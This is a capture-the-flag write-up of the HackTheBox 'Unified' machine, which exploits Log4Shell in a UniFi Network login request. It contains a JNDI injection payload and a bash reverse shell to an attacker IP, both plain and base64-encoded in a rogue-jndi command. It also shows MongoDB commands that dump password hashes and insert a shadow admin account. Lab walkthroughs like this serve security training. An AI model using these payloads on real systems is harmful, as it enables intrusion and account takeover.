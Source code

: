 ```yaml
---
title: "HackTheBox - Unified"
author: Nasrallah
description: ""
date: 2022-07-13 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, medium, log4j, burpsuite, mongodb]
img_path: /assets/img/hackthebox/machines/unified/
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Unified](https://app.hackthebox.com/starting-point?tier=2) from [HackTheBox](https://www.hackthebox.com). The target is running Unifi Network with a version vulnerable to log4j, we use that to get a reverse shell. The application(Unifi) is using Mongodb without authentication, so we add a shadow admin to login to the application as administrator, and there we find some ssh credentials.

# Enumeration

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.129.96.149                                             
Host is up (1.5s latency).                                                     
Not shown: 996 closed tcp ports (reset)                                   
PORT     STATE    SERVICE         VERSION                                 
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                                 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)            
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)                                                                                               
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)                                                                                             
6789/tcp open  ibm-db2-admin?                                                  
8080/tcp open  http-proxy
| fingerprint-strings:                                                         
|   FourOhFourRequest:                                                         
|     HTTP/1.1 404                                                             
|     Content-Type: text/html;charset=utf-8                                                                                                                   
|     Content-Language: en                                                                                                                                    
|     Content-Length: 431                                                      
|     Date: Mon, 01 Aug 2022 20:55:52 GMT                                 
|     Connection: close 
< **SNIP**>
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24 
|_Not valid after:  2024-04-03T21:37:24
```

We see 4 open ports, ssh on 22 http on port 8080 and some other things.

## Web

Let's go to the webpage on port 8080.

![](1.png)

We get redirected to Unifi login page version 6.4.54. Let's google that version number and see if there is any vulnerabilities.

![](2.png)

We see that this version is vulnerable to the famous `log4j` with the CVE number `CVE-2021-44228`.

Found this [Article](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) that would be our guide to exploit this vulnerability and get a reverse shell.

First, let's intercept a login request using burp and send it to repeater.

![](4.png)

We see 4 keys in this post request, username, password, rememberme and strict.

According to the article, the vulnerability is in the `rememberme` value issued in the login request.

![](3.png)

We can see where our payload would go.

To test the vulnerability, we can use `tcpdump` to listen for connection on port 1389 in the `tun0` interface which is our vpn connection. `sudo tcpdump -i tun0 port 1389`

The payload we will use is this one: `${jndi:ldap://10.10.16.10:1389/o=tomcat}`, put it in the rememberme value.

![](5.png)

Now send the request and you should see show in `tcpdump`.

![](6.png)

# Foothold

Now that we know the target is vulnerable, we're going to proceed to get a reverse shell.

First, we need to clone this [Github repository](https://github.com/veracode-research/rogue-jndi) and build the tool.

```
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
```

Once completed, we are going to need a payload that would sends us a reverse shell, the one we'll use is this `bash -c bash -i >&/dev/tcp/10.10.10.10/4444 0>&1`.

Now we need the base64 encode the payload with this command `echo 'bash -c bash -i >&/dev/tcp/10.10.10.10/4444 0>&1' | base64`

Now we need to start the rogue-jndi LDAP server with the following command.

```bash
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuMTAvNDQ0NCAwPiYxCg}|{base64,-d}|{bash,-i}" --hostname "10.10.10.10"
```

>Replace the Base64 encoded string after “echo” in the command above with the one you generated. Replace the hostname variable with you IP

![](7.png)

Now setup a netcat listener `nc -lvnp 4444`

To get the reverse shell, go back to burp suite and send the same request as before.

![](9.png)

Back to the listener we see that we got a shell.

![](8.png)

For a better shell, execute the following commands 

```bash
script /dev/null -c bash
export TERM=xterm
"ctrl + x"
stty raw -echo;fg
```


# Privilege Escalation

According to the [article](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi), there is a MongoDB instance storing application information listening on localhost without authentication.

We can dump a JSON array of users and their password hashes using this command : `mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`

![](10.png)

Cracking the hash might take time so we're going to add our an admin user to the database.

First, we need to generate a sha-512 hash with the following command: `mkpasswd -m sha-512 pass123`

![](11.png)

Then we add our shadow admin with this command:

```bash
mongo --port 27117 ace --eval 'db.admin.insert({ "email" : "null@localhost.local", "last_site_name" : "default", "name" : "unifi-admin", "time_created" : NumberLong(100019800), "x_shadow" : "<PASSWORD-HASH>" })'
```

![](12.png)

Now we run this command to check if our admin has been added. `mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`

![](13.png)

Yes, it's there. Now let's go back to Unifi login page and sign in using the credentials we just registered, in my case: `unifi-admin:pass123`

![](14.png)

From this point, things haven't been working smoothly with me. According to the official walkthrough, we should go to settings -> Site and find the following ssh credentials. `root:NotACrackablePassword4U2022`.

![](15.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).